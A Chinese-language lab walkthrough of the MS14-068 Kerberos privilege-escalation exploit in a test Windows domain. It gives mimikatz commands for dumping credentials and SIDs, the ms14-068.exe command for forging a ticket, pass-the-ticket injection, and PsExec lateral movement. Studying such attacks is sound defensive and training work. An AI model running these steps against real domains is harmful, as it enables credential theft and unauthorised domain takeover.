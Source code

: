 # MS14-068

1、获取域普通用户的账号密码
2、获取域普通用户的sid
3、服务器未打KB3011780补丁
4、域控服务器的IP

## 查看域控是否打ms14-068漏洞补丁

![image-20231201150337662](images/1.png)

## 查看域内SID

在win7上查看域SID

![image-20231201150418494](images/2.png)

在渗透的过程中也可以用mimikatz的logonpassword抓取（不过mimikatz需要高权限）

## 删除系统原有票据

为了排除其他票据的影响，我们来先看看有没有哪些票据，然后先删除掉

![image-20231201150603251](images/3.png)

删除已有的票据 klist purge

![image-20231201150623985](images/4.png)

为了模拟渗透的环境，后续的操作用mimikatz等工具来完成，先向win7上次mimikatz.exe

当提权到Administrator后就可以抓取密码了

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

![image-20231201151956016](images/5.png)

这里抓到了域SID，因为用的win server2012甚至还可以抓到明文密码，但是这里不是我们的关注点，我们想要的是域用户SID

![image-20231201155117634](images/6.png)

```
S-1-5-21-3014572423-1275547571-3261963242-500	域控的

S-1-5-21-3014572423-1275547571-3261963242-1106	域用户test的

```

域控的IP可以用ipconfig/all查看

## 生成票据

```
ms14-068.exe -u 域成员名@域名 -s sid -d 域控制器地址 -p 域成员密码
```

![image-20231201155247787](images/7.png)

可以看到生成了票据`TGT_test@town.domain.ccache`

## 导入票据

在导入票据之前先访问一下DC

![image-20231201153037882](images/8.png)

接下来用mimikatz导入票据，将票据导入内存（这里不需要高权限）

```
kerberos::ptc TGT_test@town.domain.ccache
```

![image-20231201153204999](images/9.png)

最后就可以通过`dir \\主机名\C$`来查看DC上的C盘内容

然后用wmiexec，psexec横向

```
.\PsExec.exe -accepteula \\10.1.1.2 -s cmd.exe
```

这里可能是我版本的问题没有打通



参考链接:

https://teamssix.com/210924-100520.html